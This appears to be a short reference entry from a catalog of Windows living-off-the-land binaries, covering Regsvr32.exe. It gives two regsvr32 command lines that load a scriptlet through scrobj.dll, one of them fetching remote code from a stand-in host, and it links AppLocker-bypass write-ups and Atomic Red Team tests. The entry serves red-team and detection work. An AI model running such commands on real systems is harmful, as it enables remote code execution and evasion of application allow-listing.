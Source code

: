 ## Regsvr32.exe
  
* Functions: Execute

```
regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll    
    
regsvr32.exe /s /u /i:file.sct scrobj.dll     
```
   
Acknowledgements:
* Casey Smith - @subtee
   
Code sample:
* [Regsvr32_calc.sct](Payload/Regsvr32_calc.sct)[1]

Resources:
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Regsvr32.md
* https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
* https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/

Full path:
```
C:\Windows\System32\regsvr32.exe
C:\Windows\SysWOW64\regsvr32.exe
```

Notes:
[1]Code sample linked to Red Canary - Atomic Red Team


 

   
   